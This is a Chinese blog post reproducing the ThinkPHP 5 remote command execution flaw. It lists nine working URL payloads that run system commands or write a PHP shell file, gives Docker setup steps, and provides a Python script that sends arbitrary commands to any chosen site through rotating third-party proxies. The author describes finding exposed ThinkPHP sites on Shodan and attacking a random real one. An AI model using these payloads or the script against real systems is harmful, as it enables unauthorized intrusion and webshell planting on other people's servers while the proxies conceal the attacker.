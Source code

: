 ```yaml
---
title: Thinkphp-getshell复现
tags: 渗透测试
---
```

# thinkphp5任意命令执行漏洞复现
## 一、漏洞详情
由于框架对控制器名没有进行足够的检测，会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。
<!--more-->
参考链接：https://blog.thinkphp.cn/869075
## 二、测试payload
其实我一直等一个大佬分析漏洞原理，但是没有看到圈子里有人发表相关文章，只好自己来告诉大家这个漏洞的消息。但是由于本人实在是技术小白，所以写不出来漏洞原理，只能发一波payload了
```
1、index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
2、index.php?s=index/\think\Request/input&filter=phpinfo&data=1
3、index.php?s=index/\think\Request/input&filter=system&data=id
4、index.php?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
5、index.php?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
6、index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
7、index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
8、index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
9、index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
## 三、复现
- 有了payload，剩下的就是搭建复现环境了。这里给大家说一下我的习惯：直接用docker pull，有的表哥可能喜欢自己搭一遍，这样能够学到更多的东西，但是我为了图方便，一般都是直接用docker实现了
- 安装docker应该大家都会，如果有人不是很了解docker的话，我这里讲一个非常简单的方法：在centos7里先yum -y updat确保自己的最新的，然后重启，执行yum -y install docker*，这样很简单的就把docker装上了
然后：
```
docker pull docker.io/clarencep/tp5-dev
docker run -d --name thinkphp5 -p 8000:8000 docker.io/clarencep/tp5-dev
```
然后就可以访问http://ip:8000来看一下是否成功  
![测试环境](https://images-cdn.shimo.im/anrkeZR5YHosWG5t__thumbnail)  
确认成功跑起来之后选一个payload来访问就可以了  
![测试payload](https://images-cdn.shimo.im/WD0eNDELsyscHQN2__thumbnail)  
## 四、愉快玩耍
有了payload，就可以写一个简单的脚本来玩了
```
#coding=utf-8
import requests,sys,random
proxy_list=[
    '223.203.0.14:8000',
    '183.166.129.53:8080',
    '103.205.26.84:41805',
    '61.135.155.82:443',
    '218.17.139.5:808'
]
def poc(site,command):
    url=site+'/index.php?s=Index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]='+command
    headers={'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0'}
    proxies={
        'http':'http://'+random.choice(proxy_list),
        'https':'https://'+random.choice(proxy_list)
        }
    req=requests.get(url,headers=headers,proxies=proxies)
    print(req.text)
    print('-----------------------------------------')

try:
    site=sys.argv[1]
    command=sys.argv[2]
except:
    site=raw_input('Please input your site:')
    print('-----------------------------------------')
    while True:
        command=raw_input('Command:')
        poc(site,command)
poc(site,command)
```
我在脚本里写了几个随便在网上找的代理IP，大家也可以写自己的  
去shodan上看一眼：
![shodan](https://images-cdn.shimo.im/rHUy523VPVYwhuOt__thumbnail)  
哇，好多thinkphp5的网站，随便挑一个    
![上手](https://images-cdn.shimo.im/nncjpXyHhSYvKVTY__thumbnail)  
我早上看的时候还好好地，现在已经被人传进去这么多马了，还有asp的，真的娘的是个人才